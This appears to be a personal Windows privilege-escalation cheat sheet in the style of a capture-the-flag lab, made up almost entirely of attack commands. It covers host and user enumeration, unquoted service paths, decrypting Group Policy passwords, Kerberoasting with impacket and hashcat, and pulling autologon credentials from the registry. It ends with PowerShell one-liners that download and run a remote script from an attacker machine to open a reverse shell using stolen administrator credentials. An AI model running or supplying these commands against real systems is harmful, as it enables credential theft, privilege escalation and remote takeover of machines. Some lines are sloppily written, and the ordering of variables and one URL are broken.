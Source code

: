 # WINDOWS

  

## For the detection of missing patches;

https://github.com/AonCyberLabs/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py

  
  

## Operating System

```cmd
systeminfo

wmic qfe
```
## Users
```  
whoami

echo %USERNAME%

net users

net user <username>

whoami /priv

net localgroup
```
## Network
```
ipconfig /all

route print

arp -A

netstat -ano

 ```

## Programs
```
dir /a "C:\Program Files"

dir /a "C:\Program Files (x86)"

reg query HKEY_LOCAL_MACHINE\SOFTWARE
```
  
  

## Unquoted Service Patch
```
wmic service get name,displayname,pathname,startmode 2>nul |findstr /i "Auto" 2>nul |findstr /i /v "C:\Windows\\" 2>nul |findstr /i /v """
```
  
  

## Scheduled task;
```
schtasks /query /fo LIST 2>nul | findstr TaskName

dir C:\windows\tasks
```
  
  

## For more of the manual enumeration steps;
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation 

https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

  
  

#For application examples;

https://www.youtube.com/watch?v=Fms9UuW05DA&list=PLi0kul0fEhZ9LNZN0-A3nX2xcx2R70JwN

  
  

## Groups.xml
```
get Groups.xml

cat Groups.xml (name, password)

gpp-Decrypt password #decryp_password

smbclient -W <domain_name> -U name //<domain_name>/share_name
```
## SPN
```
git clone https://github.com/SecureAuthCorp/impacket.git

python GetUsersSPN.py <domain_name>/user:decrypt_password -dc-ip <victim_ip> -request

hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force
```
-------------------------------------------------------------------------------------------------------------------------------

  
  

## Autologon

  

Credentials stored in the registry for autologon.

 We run `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul` to retrive the password

  
  

```cmd

PS C:\inetpub\wwwroot\internal-01\log> $username = "BART\Administrator"

PS C:\inetpub\wwwroot\internal-01\log> $password = "3130438f31186fbaf962f407711faddb"

PS C:\inetpub\wwwroot\internal-01\log> $secstr = New-Object -TypeName System.Security.SecureString

PS C:\inetpub\wwwroot\internal-01\log> $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}

PS C:\inetpub\wwwroot\internal-01\log> Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:/rev2.ps1') } -Credential $cred -Computer localhost

```

  
These credentials are set by the administrator. Since users have a tendency to reuse passwords, let’s see if the administrator account is set to the same password.
To do that, first run the following command to convert the plain text string “Welcome1!” into a secure string and store the result in the $password variable.

  
```
$password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
```
  

ConvertTo-SecureString: Converts plain text to secure strings.

-AsPlainText: Specifies a plain text string to convert to a secure string.

-Force: Confirms that you understand the implications of using the AsPlainText parameter and still want to use it.


Second, create a new object to store these credentials. 
```
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
```
  

Third, we’ll use these credentials to start PowerShell and send a (hopefully privileged) reverse shell back to our attack machine.
 weill call another shell using thecred from the box

  

```
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://<ip>:8000/revin.ps1')" -Credential $cred
```
  
  
  
  
